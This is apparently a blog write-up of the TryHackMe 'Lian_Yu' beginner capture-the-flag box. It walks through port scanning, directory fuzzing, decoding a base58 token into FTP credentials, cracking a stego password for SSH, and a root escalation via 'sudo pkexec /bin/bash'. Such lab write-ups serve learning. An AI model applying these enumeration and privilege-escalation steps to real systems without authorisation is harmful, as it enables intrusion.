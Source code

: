 ```yaml
---
layout: post
title:  "THM Lian_Yu"
date:   2020-06-17 20:00:00 +1000
category: hacking
---
```


# Introduction
Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

Normally I keep notes in Cherrytree. I'm going to try doing notes directly into Joplin as I work instead for this.

# nmap
{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# nmap -p- -T4 10.10.156.179 -oA tcp_all_ports -vv
{% endhighlight %}

### Results
Ports 21 (FTP), 22 (SSH), 80 (Webserver), 111 (unknown), 54272 (unknown). Google says Port 111 is probably RCP. We'll get nmap to see if it knows.

### Port 111
nmap says it's *rpcbind*. Not sure if it's important yet. Port 54272 also appears to be related to RPC.

{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# rpcinfo -p 10.10.156.179
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  44947  status
    100024    1   tcp  54272  status
{% endhighlight %}
I don't think this is relevant.

# FTP
Anonymous login not permitted.  
nmap says:
*21/tcp  open  ftp     syn-ack ttl 63 vsftpd 3.0.2*
Searchsploit doesn't list a vulnerability for this version, so presumably we're going to need some credentials.

# Webserver
Page title is Purgatory, and there is some content about the TV Series Arrow that doesn't immediately appear relevant. No robots.txt. Server home is index.html, index.php is 404 so possibly not running PHP on the server. The 404 doesn't leak any information about which server is running.

Changing the HTTP version and host header field in Burp Repeater didn't do anything.

### Gobuster

Try a gobuster with a basic wordlist:
{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# gobuster dir -u http://10.10.156.179 -w /usr/share/wordlists/dirb/common.txt
{% endhighlight %}
This didn't turn up anything useful, so we'll try again with a bigger wordlist (directory-list-lowercase-2.3-small.txt).

Gobuster turned up a page called 'island' with the following content:
**Ohhh Noo, Don't Talk...............
I wasn't Expecting You at this Moment. I will meet you there
You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante**

Vigilante was written in a white font on the white background so it wasn't readily visible.

### Custom wordlist 1

Since 'island' was a term on the index.html page, I ran cewl to generate a list of words from that page to run against gobuster:
{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# /opt/cewl/cewl.rb -d 99 10.10.156.179 > cewlout.txt
{% endhighlight %}

But it didn't find anything other than island.

### Custom wordlist 2

I went to the Arrow Season 1 wikipedia page and copied all the text to a file and then manipulated it so I had one word per line. Then I removed the duplicates and punctuation (note I rm'd the original custom.txt after the first command here): 
{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# sort custom.txt | uniq -u > filtered.txt
root@kali:/opt/tryhackme/lian_yu# cat filtered.txt | tr -d '[:punct:]' > custom.txt
{% endhighlight %}

But it didn't find anything new either.

### More fuzzing

Since I'm not getting anywhere with that, let's try fuzzing inside island:
{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# wfuzz --hc 404 -u http://10.10.156.179/island/FUZZ/ -w /usr/share/wordlists/dirb/common.txt 
{% endhighlight %}

Success: http://10.10.156.179/island/2100/

There is a hint in the page source:
**you can avail your .ticket here but how?**

{% highlight shell %}
root@kali:/opt/tryhackme/lian_yu# gobuster dir -u http://10.10.62.128/island/2100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket
{% endhighlight %}

This turned up: http://10.10.62.128/island/2100/green_arrow.ticket
Which contained:
*This is just a token to get into Queen's Gambit(Ship)
RTy8yhBQdscX*

This looks like base64, but it's actually base58. And it decodes to !#th3h00d, which we can use for the FTP service.

# FTP Again
The credentials we've gathered are 'vigilante:!#th3h00d', which gives us access to three images, so probably stego.   
Poking around in the FTP directory we can go up a level and find there is another user called 'slade'.

# Stego/SSH
I hate stego. I threw stegcracker at aa.jpg and it cracked with 'password' and I got a file with the word 'M3tahuman' in it; as it turns out this is the SSH password for slade.

# Privesc
Very straightforward:

{% highlight shell %}
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# ls
root.txt
root@LianYu:~# cat root.txt
                          Mission accomplished
{% endhighlight %}
